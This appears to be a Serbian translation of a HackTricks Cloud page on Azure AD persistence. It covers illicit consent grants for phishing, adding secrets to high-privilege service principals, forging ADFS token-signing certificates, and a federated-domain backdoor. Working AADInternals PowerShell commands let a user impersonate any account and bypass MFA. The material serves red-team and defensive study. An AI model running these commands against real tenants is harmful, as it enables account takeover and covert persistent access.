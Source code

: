 # Az - Upornost

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

### Nezakonito odobrenje pristanka

Podrazumevano, svaki korisnik može registrovati aplikaciju u Azure AD. Dakle, možete registrovati aplikaciju (samo za ciljani tenant) koja zahteva visoko uticajne dozvole sa administrativnim pristankom (odobriti je ako ste administrator) - poput slanja e-pošte u ime korisnika, upravljanja ulogama itd. Ovo će nam omogućiti da **izvršimo phishing napade** koji bi bili veoma **uspešni** u slučaju uspeha.

Osim toga, takođe možete prihvatiti tu aplikaciju sa vašim korisnikom kao način održavanja pristupa preko nje.

### Aplikacije i servisni principali

Sa privilegijama Administratora aplikacija, GA ili prilagođene uloge sa dozvolama microsoft.directory/applications/credentials/update, možemo dodati akreditive (tajnu ili sertifikat) postojećoj aplikaciji.

Moguće je **ciljati aplikaciju sa visokim dozvolama** ili **dodati novu aplikaciju** sa visokim dozvolama.

Interesantna uloga koju možemo dodati aplikaciji je **Uloga privilegovanog administratorskog autentifikatora** jer omogućava **resetovanje lozinke** Globalnim administratorima.

Ova tehnika takođe omogućava **zaobilaženje MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Za autentifikaciju zasnovanu na sertifikatima

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% code %}

### Federacija - Sertifikat za potpisivanje tokena

Sa **DA privilegijama** na lokalnom AD-u, moguće je kreirati i uvesti **novi sertifikat za potpisivanje tokena** i **sertifikat za dekripciju tokena** koji imaju veoma dugotrajnu važnost. Ovo će nam omogućiti da se **prijavimo kao bilo koji korisnik** čiji ImuutableID znamo.

**Pokrenite** sledeću komandu kao **DA na ADFS serveru(ima)** da biste kreirali nove sertifikate (podrazumevana lozinka je 'AADInternals'), dodajte ih u ADFS, onemogućite automatsko rotiranje i restartujte servis:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Zatim ažurirajte informacije o sertifikatu sa Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federacija - Pouzdani domen

Sa GA privilegijama na zakupcu, moguće je **dodati novi domen** (mora biti verifikovan), konfigurisati njegov tip autentifikacije kao Federated i konfigurisati domen da **poverava određeni sertifikat** (any.sts u narednoj komandi) i izdavača:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Reference

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju oglašenu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
